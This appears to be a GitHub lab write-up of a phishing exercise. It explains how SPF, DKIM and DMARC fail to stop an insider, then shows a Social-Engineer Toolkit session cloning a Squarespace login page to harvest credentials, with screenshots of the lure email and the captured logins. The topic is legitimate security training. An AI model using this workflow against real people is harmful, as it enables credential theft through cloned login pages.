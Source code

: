 
### **Project Overview**: 

This project will focus on evading **email security hardening** from **SPF, DKIM, and DMARC** records, demonstrating the impact of these security measures on preventing phishing attacks in an insider scenario. The exercise involves setting up a phishing campaign using **Social-Engineer Toolkit (SET)**, and then showing how to bypass email filtering and email authentication mechanisms (SPF, DKIM, DMARC) that protect against such attacks.

---

### **Step-by-Step Guide for the Project**:

#### **1. Introduction: Define the Problem and Objectives**
   - **Objective**: Explain why email security is critical. Include real-world statistics on phishing attacks to add relevance.
   - **Attack Scenario**: Describe a scenario where an attacker (posing as IT Support) attempts to phish an employee of a company.
   - **Controls Implemented**: You will demonstrate the attack with and without the security controls (SPF, DKIM, DMARC) and email filtering.

   Outlining the attack lifecycle where SPF, DKIM, and DMARC fit into the defense mechanism. SPF and DKIM would not fully protect against a phishing attack if we are already inside the organization.


**DKIM (DomainKeys Identified Mail)**
- DKIM ensures that the email has not been altered during transit by verifying a cryptographic signature tied to the domain. If we pivot this attack from inside the organization, the signature should be valid.

**SPF (Sender Policy Framework)**
- SPF verifies that an email comes from an authorized mail server for the domain.

**DMARC (Domain-based Message Authentication, Reporting, and Conformance)**
- DMARC enforces the domain's policy by combining SPF and DKIM checks. It instructs the recipient's mail server on what to do (reject, quarantine, report, accept) based on the email passing SPF and/or DKIM checks. In an insider scenario, both SPF and DKIM will pass, the email will not be rejected or flagged.

```mermaid
flowchart TD
    A[Attacker Prepares Spoofed Email] --> B[Email Sent to Victim's Mail Server]
    B --> C[SPF Check: Validate Sending Server]
    C -- Pass --> D[DKIM Check: Validate Email Integrity]
    C -- Fail --> F[Email Flagged or Rejected by SPF Policy]
    D -- Pass --> E[DMARC Check: Enforce Email Policy]
    D -- Fail --> G[Email Flagged or Rejected by DKIM Policy]
    E -- Pass --> H[Email Delivered to Inbox]
    E -- Fail --> I[Email Quarantined or Rejected by DMARC Policy]
    H --> J[Victim Receives Email]
    J --> K[Victim Clicks Link -If Email Not Blocked]
    
    F --> L[Attack Failed: SPF Protection Triggered]
    G --> M[Attack Failed: DKIM Protection Triggered]
    I --> N[Attack Failed: DMARC Protection Triggered]

    subgraph Email Defense Mechanisms
        C
        D
        E
    end

```

---

#### **2. Setup the Phishing Campaign (Attack Simulation)**


Using SET and cloning a login page
```
...SNIP...

 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 2

...SNIP...

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

...SNIP...

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.24.132]:192.168.24.132
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:https://login.squarespace.com/<REDACTED>

[*] Cloning the website: https://login.squarespace.com/<REDACTED>
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:



```

Crafting a Malicious Phishing Email
![Pasted image 20240922175706](https://github.com/user-attachments/assets/0c0dbd2b-f498-46ed-98c8-145205d5225f)

The link goes to our cloned login page where we will capture any creds.

![Pasted image 20240922175843](https://github.com/user-attachments/assets/4fc42e10-7597-4ec5-bd2c-041788fa0099)



The victim perspective, receiving the phishing email. 

---

Opening the phishing email raises no alerts.
![Pasted image 20240922180757](https://github.com/user-attachments/assets/ea962a6d-a7b0-4c25-80af-4278d914dc68)

Let's analyze the results.
![Pasted image 20240922181351](https://github.com/user-attachments/assets/e6116716-64f4-4f6f-a226-fc77ddc919a5)


#### **3. Analyzing the Phishing Campaign Results**


The phishing email in John Doe's inbox 
![Pasted image 20240922180213](https://github.com/user-attachments/assets/8b88a6ce-7b48-4fef-9500-bc788f946737)


The fake login page,
   > The link to a cloned login page which is identical except the URL.
![Pasted image 20240922181131](https://github.com/user-attachments/assets/e3239491-6e90-427e-a6d5-ecb68c0d931d)


the captured credentials in SET.

![Pasted image 20240922201031](https://github.com/user-attachments/assets/956974e0-0672-4846-9ed4-84355037f77c)


